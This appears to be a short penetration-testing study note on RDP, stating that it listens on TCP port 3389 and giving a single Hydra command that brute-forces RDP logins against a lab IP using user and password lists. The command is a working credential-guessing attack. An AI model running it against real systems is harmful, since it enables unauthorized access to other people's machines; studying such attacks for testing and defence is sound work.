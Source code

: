 # RDP

Microsoft's **Remote Desktop Protocol** (**RDP**) is a network protocol that allows remote access to Windows systems via **TCP port 3389** by default.

## Hydra

Use Hydra to perform RDP bruteforcing.

```shell
clue@machine[/]$ hydra -L user.list -P password.list rdp://10.129.42.197
```
